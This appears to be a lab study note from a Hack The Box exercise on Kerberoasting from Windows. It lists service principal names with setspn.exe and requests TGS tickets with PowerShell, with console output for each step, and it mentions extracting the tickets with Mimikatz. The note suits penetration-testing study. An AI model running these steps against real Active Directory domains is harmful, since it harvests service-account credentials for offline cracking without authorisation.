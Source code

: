 Kerberoasting - from Windows
#############################

Date: 2024-12-26 11:42:19

Status: #new

Tags: :ref:`active directory enumeration attacks`

Description
*************

:ref:`kerberoasting - from linux`


Kerberoasting - Semi Manual method
***********************************

.. code-block:: console

    C:\htb> setspn.exe -Q */*

    Checking domain DC=INLANEFREIGHT,DC=LOCAL
    CN=ACADEMY-EA-DC01,OU=Domain Controllers,DC=INLANEFREIGHT,DC=LOCAL
            exchangeAB/ACADEMY-EA-DC01
            exchangeAB/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
            TERMSRV/ACADEMY-EA-DC01
            TERMSRV/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
            Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
            ldap/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/ForestDnsZones.INLANEFREIGHT.LOCAL
            ldap/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DomainDnsZones.INLANEFREIGHT.LOCAL

    <SNIP>

    CN=BACKUPAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
            backupjob/veam001.inlanefreight.local
    CN=SOLARWINDSMONITOR,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
            sts/inlanefreight.local

    <SNIP>


    CN=sqlprod,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
            MSSQLSvc/SPSJDB.inlanefreight.local:1433
    CN=sqlqa,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
            MSSQLSvc/SQL-CL01-01inlanefreight.local:49351
    CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
            MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
    CN=adfs,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
            adfsconnect/azure01.inlanefreight.local

    Existing SPN found!

By using PowerShell, we can request TGS tickets for an account in the shell above and 
load them into memory. Once they are loaded into memory, we can extract them using Mimikatz.

Let's try this by targeting a single user:

Targeting a Single User
************************

.. code-block:: powershell

    PS C:\htb> Add-Type -AssemblyName System.IdentityModel
    PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

    Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-2
    SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
    ValidFrom            : 2/24/2022 11:36:22 PM
    ValidTo              : 2/25/2022 8:55:25 AM
    ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
    SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

Retrieving All Tickets Using setspn.exe
****************************************

.. code-block:: powershell

    PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }

    Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-3
    SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
    ValidFrom            : 2/24/2022 11:56:18 PM
    ValidTo              : 2/25/2022 8:55:25 AM
    ServicePrincipalName : exchangeAB/ACADEMY-EA-DC01
    SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

    Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-4
    SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
    ValidFrom            : 2/24/2022 11:56:18 PM
    ValidTo              : 2/24/2022 11:58:18 PM
    ServicePrincipalName : kadmin/changepw
    SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

    Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-5
    SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
    ValidFrom            : 2/24/2022 11:56:18 PM
    ValidTo              : 2/25/2022 8:55:25 AM
    ServicePrincipalName : WSMAN/ACADEMY-EA-MS01
    SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

    <SNIP>

